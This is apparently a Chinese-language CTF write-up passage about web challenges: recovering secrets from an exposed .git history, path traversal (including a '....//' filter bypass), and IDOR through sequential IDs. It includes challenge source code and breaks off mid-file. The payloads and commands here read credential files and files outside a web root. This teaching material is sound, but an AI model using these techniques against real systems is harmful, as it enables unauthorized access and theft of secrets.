  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/development [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/development responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/heads/production [404]
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/heads/master [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/heads/production responded with status code 404
[-] https://web02.ctf.ga24.me/.git/logs/refs/heads/master responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/heads/staging [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/heads/staging responded with status code 404
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/refs/heads/master [404]
[-] https://web02.ctf.ga24.me/.git/refs/heads/master responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/heads/staging [404]
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/stash [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/stash responded with status code 404
[-] https://web02.ctf.ga24.me/.git/refs/heads/staging responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/packed-refs [404]
[-] https://web02.ctf.ga24.me/.git/packed-refs responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/heads/main [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/refs/remotes/origin/HEAD [404]
[-] https://web02.ctf.ga24.me/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/remotes/origin/main [404]
[-] https://web02.ctf.ga24.me/.git/refs/remotes/origin/main responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/heads/production [404]
[-] https://web02.ctf.ga24.me/.git/refs/heads/production responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/heads/development [404]
[-] https://web02.ctf.ga24.me/.git/refs/heads/development responded with status code 404
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/refs/remotes/origin/development [404]
[-] Fetching https://web02.ctf.ga24.me/.git/refs/remotes/origin/production [404]
[-] Fetching https://web02.ctf.ga24.me/.git/refs/remotes/origin/staging [404]
[-] https://web02.ctf.ga24.me/.git/refs/remotes/origin/development responded with status code 404
[-] https://web02.ctf.ga24.me/.git/refs/remotes/origin/staging responded with status code 404
[-] https://web02.ctf.ga24.me/.git/refs/remotes/origin/production responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/stash [404]
[-] https://web02.ctf.ga24.me/.git/refs/stash responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/staging [404]
[-] Fetching https://web02.ctf.ga24.me/.git/refs/remotes/origin/master [404]
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/main [404]
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/master [404]
[-] https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/staging responded with status code 404
[-] https://web02.ctf.ga24.me/.git/refs/remotes/origin/master responded with status code 404
[-] https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/main responded with status code 404
[-] https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/production [404]
[-] https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/production responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/HEAD [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/production [404]
[-] https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/production responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/staging [404]
[-] https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/staging responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/development [404]
[-] https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/development responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/main [404]
[-] https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/main responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/master [404]
[-] https://web02.ctf.ga24.me/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/development [404]
[-] https://web02.ctf.ga24.me/.git/refs/wip/wtree/refs/heads/development responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/objects/81/2a92757b13a9a7915b33127d404383c4e06771 [200]
[-] Fetching https://web02.ctf.ga24.me/.git/objects/ca/c9927318728462bc9402ccadb4c82b1d7ec7a1 [200]
[-] Fetching https://web02.ctf.ga24.me/.git/objects/5f/f0dd0fb91ec018d2ebf4e8497a33f1c43e9fa3 [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/objects/a6/325535a37f01de5b47dda4e52d5414bc9dd5ea [200]
[-] Fetching https://web02.ctf.ga24.me/.git/objects/db/a8e5462b9287b53ec2d2f8fd1337815b4d6c8e [200]
[-] Fetching https://web02.ctf.ga24.me/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] https://web02.ctf.ga24.me/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/objects/e9/3ad21b8edd16be3336320c6db0f3d8a6d317ca [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/objects/47/8681ed092876e1cb5730c1f19a1e8ef2b8ff36 [200]
[-] Fetching https://web02.ctf.ga24.me/.git/objects/db/38c281cc56c13993df5f4d2da2c7121564d9bc [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/objects/3f/d9f444b8c03df437141a8e1dd58f7fd8aa01d5 [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/objects/e0/293a949c35d4de3521e56ea3096502575e8b2d [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/objects/81/8bea60b732259be81001d75a9984661d63656a [200]
[-] Fetching https://web02.ctf.ga24.me/.git/objects/4d/eeb90f5c246b756c9cf3fae830b90a19744b79 [200]
[-] Fetching https://web02.ctf.ga24.me/.git/objects/e6/a50b66518628060ddec56a558dff0145530d42 [200]
[-] Running git checkout .
➜  ~ cd ./web02
➜  web02 git:(main)
```

然後我們就把整個專案資料夾 clone（克隆/複製）下來了，那我們就可以查看一下他的歷史紀錄：

```bash
➜  web02 git:(main) git log

commit a6325535a37f01de5b47dda4e52d5414bc9dd5ea (HEAD -> main)
Author: Alice <alice@shopmini.example>
Date:   Sun Apr 5 14:15:00 2026 +0000

    Add .gitignore and minor style tweaks

commit 812a92757b13a9a7915b33127d404383c4e06771
Author: Alice <alice@shopmini.example>
Date:   Thu Apr 2 09:30:00 2026 +0000

    Remove accidentally committed credentials file

commit cac9927318728462bc9402ccadb4c82b1d7ec7a1
Author: ShopMini Dev <dev@shopmini.example>
Date:   Wed Apr 1 10:00:00 2026 +0000

    Initial import of ShopMini site
(END)
➜  web02 git:(main)
```
有發現嗎，這裡第二個 commit（提交）把意外提交的憑證文件刪除了，也就是第一個 commit 中很有可能會有我們想要的東西。  
那我們就可以使用 switch（切換）到之前的版本看看：
```bash
➜  web02 git:(main) git switch --detach cac992
HEAD is now at cac9927 Initial import of ShopMini site
➜  web02 git:(cac9927) ls
index.html             secret_credentials.txt
README.md              style.css
➜  web02 git:(cac9927)
```

看到那個有趣的檔案了嗎？ `secret_credentials.txt`，直接打開吧！
```bash
➜  web02 git:(cac9927) cat secret_credentials.txt
# Production credentials — DO NOT COMMIT
AWS_ACCESS_KEY_ID=AKIA5EXAMPLEACMEDEV
AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
INTERNAL_API_TOKEN=FLAG{n3v3r_c0mm1t_s3cr3ts_t0_g1t_h1st0ry}
➜  web02 git:(cac9927)
```

#### Flag

```txt
FLAG{n3v3r_c0mm1t_s3cr3ts_t0_g1t_h1st0ry}
```

## Web / Path Traversal

### [InternalDocs Wiki](https://ctf.ga24.me/challenges#InternalDocs%20Wiki-3) (150)

#### 題目

InternalDocs 是 XXX 公司剛推出的內部 wiki。看起來只是個很單純的文件閱讀器……但也許太單純了？

網站：<https://web03.ctf.ga24.me>

#### 解題心得

點開網站，看到三個連結，分別是 `Welcome`、`Changelog`、`Contact`，還有一個提示 `Tip: URL 上的 page= 可以指定要讀哪一份文件。`。  
我們打開這三個連結看看：  
https://web03.ctf.ga24.me/view?page=welcome.txt
```txt
Welcome to InternalDocs Wiki!

This wiki is used to host internal company documentation. Pages are
served from /app/pages/ on the server.

If a page is missing, ask the wiki admin. Do NOT edit files directly.
```
https://web03.ctf.ga24.me/view?page=changelog.txt
```txt
Changelog
=========

2026-07-01  v1.2  Add "contact.txt" page.
2026-06-15  v1.1  Move wiki root to /app/pages/.
2026-05-01  v1.0  Initial release.
```
https://web03.ctf.ga24.me/view?page=contact.txt
```txt
Wiki admin:  wiki-admin@internal.example
Helpdesk  :  helpdesk@internal.example  (ext. 4242)
```

有發現嗎，這個網站都是用 `view?page=` 後面接著要打開的檔案名稱，所以我們可以嘗試打開 `flag.txt`，但發現 404 Not Found。這時候回去看前面兩個連結提到伺服器是架在 `/app/pages/` 中，所以我們就直接回到上上層路徑試試看：
https://web03.ctf.ga24.me/view?page=../../flag.txt
```txt
FLAG{p4th_tr4v3rs4l_1s_th3_cl4ss1c_w3b_bug}
```
欸找到了！這裡補一下概念 `../` 代表回到上層目錄，然後通常打 CTF 都要通靈知道我們會把 Flag 藏在 flag.txt 中。

#### Flag

```txt
FLAG{p4th_tr4v3rs4l_1s_th3_cl4ss1c_w3b_bug}
```

### [ManualHub v2 — Secured](https://ctf.ga24.me/challenges#ManualHub%20v2%20%E2%80%94%20Secured-4) (300)

#### 題目

在被 pentester 爆了 Path Traversal 之後，ManualHub 團隊上線 v2，把使用者輸入通通經過 `sanitize()` 過濾。

「這次我們超安全，`../` 通通擋掉。」真的嗎？

網站：<https://web04.ctf.ga24.me>

附件：`app.py`

#### 解題心得

打開網站，發現跟上個的題目很像，但連結不太一樣，分別是 `Quickstart`、`FAQ`、`Release Notes`，還有一個提示 `v2 更新：所有路徑輸入都經過 sanitize() 處理，過濾 ../， 請放心下載，不會有任何 Path Traversal 風險。`。  
我們打開這三個連結看看：  
https://web04.ctf.ga24.me/download?file=quickstart.txt
```txt
ManualHub — Quickstart

1. 從左側選單挑一份手冊。
2. 點下去就會下載。

若下載失敗，請聯絡管理員。
```
```txt
FAQ
===

Q: v1 有 Path Traversal 洞，v2 修好了嗎？
A: 修好了！我們現在會把 ../ 過濾掉。

Q: 那如果我輸入 ....// 呢？
A: (安靜)
```
```txt
Release Notes
=============

v2.0 (2026-07-01)
  - 修補 v1 的 Path Traversal 漏洞
  - 新增 sanitize() 過濾 ../

v1.0 (2026-06-01)
  - 初始版本
```
這裡有附上一個 `app.py`，我們打開來可以看到跟 FAQ 和 Release Notes 對應到的 santitize() 函式：
```py collapse={1-29, 36-60}
from flask import Flask, request, abort, Response
import os

app = Flask(__name__)
DOCS_DIR = "/app/docs"

INDEX_HTML = """<!DOCTYPE html>
<html lang="zh-TW"><head><meta charset="UTF-8"><title>ManualHub</title>
<style>
body{font-family:-apple-system,sans-serif;max-width:720px;margin:32px auto;padding:0 16px;color:#222}
h1{color:#204e4a}nav a{margin-right:16px}
.hint{color:#888;font-size:12px}
.badge{display:inline-block;background:#c8e6c9;color:#204e4a;padding:2px 8px;border-radius:10px;font-size:12px;margin-left:8px}
</style></head><body>
<h1>ManualHub <span class="badge">v2 · Secured</span></h1>
<p>下載官方使用手冊：</p>
<nav>
  <a href="/download?file=quickstart.txt">Quickstart</a>
  <a href="/download?file=faq.txt">FAQ</a>
  <a href="/download?file=release_notes.txt">Release Notes</a>
</nav>
<p class="hint">
  v2 更新：所有路徑輸入都經過 <code>sanitize()</code> 處理，過濾 <code>../</code>，
  請放心下載，不會有任何 Path Traversal 風險。
</p>
</body></html>
"""


def sanitize(name: str) -> str:
    """
    v1 曾被 Path Traversal 攻擊，v2 加入這個「安全」過濾器：
    把所有 '../' 通通拿掉就好啦。
    """
    return name.replace("../", "")


@app.route("/")
def index():
    return INDEX_HTML


@app.route("/download")
def download():
    file = request.args.get("file", "quickstart.txt")

    safe = sanitize(file)
    path = DOCS_DIR + "/" + safe

    try:
        with open(path, "r", encoding="utf-8", errors="replace") as f:
            body = f.read()
    except (FileNotFoundError, IsADirectoryError, PermissionError):
        abort(404)

    return Response(body, mimetype="text/plain; charset=utf-8")


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

那都給了提示了，直接輸入 `....//` 到 `flag.txt` 就可以找到了檔案了！  
https://web04.ctf.ga24.me/download?file=....//....//flag.txt
```txt
FLAG{n0n_r3curs1v3_f1lt3rs_g3t_nest3d_by_d0ts}
```
補一下為什麼這樣可以，因為這個程式做的事情是把所有的 `../` 全部刪除，但在 `....//` 中，他只會找到一個 `../`，然後把它刪掉後，就會剩下 `../`。

#### Flag

```txt
FLAG{n0n_r3curs1v3_f1lt3rs_g3t_nest3d_by_d0ts}
```

## Web / IDOR

## [MyJournal](https://ctf.ga24.me/challenges#MyJournal-5) (150)

#### 題目

「MyJournal」是一個私人日誌 App。每個使用者只能看到自己寫的日誌……應該吧？

網站：<https://web05.ctf.ga24.me>

測試帳號：`alice / alice123`、`bob / bob123`

#### 解題心得

我們這題直接使用題目提供的 alice 帳號登入，會發現裡面會有三篇日誌：
```txt
#3 — Alice — 京都行程
#5 — Alice — 健身進度
#6 — Alice — 工作 TODO
```
打開第一個我們會發現他的日誌是靠數字去控制的。
```txt
https://web05.ctf.ga24.me/journal/<id>
```
也就是說，我們可以快樂的猜日誌編號，有 3 應該就會有 2，有 2 應該會有 1。於是就可以找到了那篇 admin 日誌：
```text
只有我（admin）看得到這篇。

1. DB 密碼輪換
2. 內部 API token 輪換 → 新 token: FLAG{id0r_1s_ju5t_ch4ng1ng_th3_numb3r}
3. VPN cert 續期
```

#### Flag

```txt
FLAG{id0r_1s_ju5t_ch4ng1ng_th3_numb3r}
```

### [SupportDesk](https://ctf.ga24.me/challenges#SupportDesk-6) (300)

#### 題目

公司剛導入了 SupportDesk 內部工單系統。工程主管很有信心：「所有 ticket ID 都用 UUID，開發時也都有做 ownership check，這次萬無一失。」

用測試帳號登入，看看能不能挖到 admin 藏在私人 ticket 裡的 API token。

網站：<https://web06.ctf.ga24.me>

測試帳號：`alice / alice123`

附件：`app.py`

#### 解題心得

這題也是簡單不難，一樣登入後會看到有一些 UUDI 工單，點見去後會看到他的 Reply 好像疑似也是靠 id 去辨認的？於是我們選一篇 Reply 查看他的 JSON：
https://web06.ctf.ga24.me/api/replies/2
```txt
{
  "author_id": 3,
  "body": "我忘記密碼，請協助 reset，我用的 email 是 alice@example.com。",
  "id": 2,
  "ticket": "b1d4a76c-2c9b-4e5b-b8a1-72e9d0a3b4c5"
}
```
從這個可以看到，他好像的確就是這麼搞的，那我們也順便查看題目原始碼確認一下：
```py collapse={1-29, 51-212, 227-237}
from flask import Flask, request, session, redirect, url_for, abort, jsonify
import os
import html

app = Flask(__name__)
app.secret_key = os.urandom(32)


# --- In-memory「資料庫」 -----------------------------------------------------
USERS = {
    # username → (password, user_id, display_name)
    "admin": ("OSGAisSO_Handsome", 1, "Admin"),
    "bob":   ("bob123",   2, "Bob"),
    "alice": ("alice123", 3, "Alice"),
}
USER_BY_ID = {rec[1]: (uname, rec[2]) for uname, rec in USERS.items()}

# ticket_uuid → {owner_id, subject}
TICKETS = {
    "9f2c8e63-1c0a-4c3f-a1e7-3f9f5a2c1a01":
        {"owner_id": 1, "subject": "[Internal] Q3 secret rotation"},
    "b1d4a76c-2c9b-4e5b-b8a1-72e9d0a3b4c5":
        {"owner_id": 3, "subject": "登入密碼重設"},
    "e7c9f3a2-9c72-49a8-9d5c-8f1a2b3c4d5e":
        {"owner_id": 3, "subject": "報表下載按鈕沒反應"},
    "c5a1e0b3-6d7f-4a2c-8e3d-9b1c0d2e3f45":
        {"owner_id": 2, "subject": "無法上傳超過 10MB 附件"},
}

# reply_id (int) → {ticket_uuid, author_id, body}
# 注意：reply 有整數 ID —— 這是漏洞的入口
REPLIES = {
    1:  {"ticket": "9f2c8e63-1c0a-4c3f-a1e7-3f9f5a2c1a01", "author_id": 1,
         "body": "本季密碼輪換已完成，記得 update 部署設定。"},
    2:  {"ticket": "b1d4a76c-2c9b-4e5b-b8a1-72e9d0a3b4c5", "author_id": 3,
         "body": "我忘記密碼，請協助 reset，我用的 email 是 alice@example.com。"},
    3:  {"ticket": "b1d4a76c-2c9b-4e5b-b8a1-72e9d0a3b4c5", "author_id": 1,
         "body": "已寄出 reset link，請 24 小時內完成。"},
    4:  {"ticket": "c5a1e0b3-6d7f-4a2c-8e3d-9b1c0d2e3f45", "author_id": 2,
         "body": "附件是 12MB 的 pdf。"},
    5:  {"ticket": "e7c9f3a2-9c72-49a8-9d5c-8f1a2b3c4d5e", "author_id": 3,
         "body": "在 Chrome / Safari 都試過，都沒反應。"},
    6:  {"ticket": "c5a1e0b3-6d7f-4a2c-8e3d-9b1c0d2e3f45", "author_id": 1,
         "body": "上限是 10MB，麻煩壓縮後再上傳。"},
    7:  {"ticket": "e7c9f3a2-9c72-49a8-9d5c-8f1a2b3c4d5e", "author_id": 1,
         "body": "已修復（前端 handler 沒 bind 到），下次 build 會生效。"},
    # -- Admin 對自己 ticket 的 private reply，藏 FLAG --------------------------
    42: {"ticket": "9f2c8e63-1c0a-4c3f-a1e7-3f9f5a2c1a01", "author_id": 1,
         "body": "順帶記錄一下：新產生的 API token = FLAG{OSGAAAAAAAAAAAAAA}"},
}
# -----------------------------------------------------------------------------


def current_user():
    return session.get("user_id"), session.get("username")


def _display(uid: int) -> str:
    rec = USER_BY_ID.get(uid)
    return rec[1] if rec else f"user#{uid}"


LOGIN_HTML = """<!DOCTYPE html>
<html lang="zh-TW"><head><meta charset="UTF-8"><title>SupportDesk · 登入</title>
<style>
body{font-family:-apple-system,sans-serif;max-width:420px;margin:60px auto;padding:0 16px;color:#222}
h1{color:#204e4a}input{width:100%;padding:8px;margin:6px 0;box-sizing:border-box}
button{padding:8px 16px;background:#204e4a;color:#fff;border:0;border-radius:4px;cursor:pointer}
.err{color:#c00}
.test{background:#eef9f7;padding:12px;border-radius:6px;font-size:13px;margin-top:24px}
</style></head><body>
<h1>SupportDesk</h1>
<p>企業內部客服工單系統。</p>
<form method="POST">
  <input name="username" placeholder="使用者名稱" required autofocus>
  <input name="password" type="password" placeholder="密碼" required>
  <button>登入</button>
</form>
%s
<div class="test"><b>測試帳號：</b> alice / alice123</div>
